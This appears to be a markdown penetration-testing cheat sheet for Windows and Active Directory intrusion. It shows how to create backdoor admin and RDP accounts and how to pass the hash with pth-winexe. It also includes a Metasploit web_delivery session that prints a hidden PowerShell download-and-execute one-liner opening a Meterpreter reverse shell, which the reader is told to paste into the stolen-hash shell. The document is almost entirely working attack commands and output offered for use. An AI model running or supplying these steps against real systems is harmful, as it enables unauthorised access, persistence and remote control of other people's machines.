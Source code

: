 ## Add user

```
net user /add [username] [password]
```
## Add User as an admin
```
net localgroup administrators [username] /add
```
## Add user to RDP group
```
NET LOCALGROUP "Remote Desktop Users" keyoke /ADD
```

# PTH_winexe : open shell without psexec
Example :<br>

```
pth-winexe -U DOMAIN/USERNAME%cc5e9acbad1b25c9aad3b435b51404ee:996e6760cddd8815a2c24a110cf040fb //IP_Server cmd.exe
```
Real Example :<br>

```
pth-winexe -U LAB/Administrator%cc5e9acbad1b25c9aad3b435b51404ee:996e6760cddd8815a2c24a110cf040fb //192.168.1.44 cmd.exe
```
# PTH-winexe to Meterpreter
```
msf exploit(web_delivery) > use exploit/multi/script/web_delivery 
msf exploit(web_delivery) > set target 2
target => 2         
msf exploit(web_delivery) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(web_delivery) > set L
set LHOST         set LISTENERCOMM  set LOGLEVEL      set LPORT         
msf exploit(web_delivery) > set LHOST 127.0.0.1
LHOST => 127.0.0.1
msf exploit(web_delivery) > set LPORT 1233
LPORT => 1233
msf exploit(web_delivery) > exploit 
[*] Exploit running as background job 0.

[!] You are binding to a loopback address by setting LHOST to 127.0.0.1. Did you want ReverseListenerBindAddress?
[*] Started reverse TCP handler on 127.0.0.1:1233 
[*] Using URL: http://0.0.0.0:8080/gOAr7kQOTh
msf exploit(web_delivery) > [*] Local IP: http://10.2.15.194:8080/gOAr7kQOTh
[*] Server started.
[*] Run the following command on the target machine:
powershell.exe -nop -w hidden -c $j=new-object net.webclient;$j.proxy=[Net.WebRequest]::GetSystemWebProxy();$j.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $j.downloadstring('http://127.0.0.1:8080/gOAr7kQOTh');
```
Copy the powershell command into the cmd opened with pth_winexe
# Active Directory
```
# current domain info
[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()

```
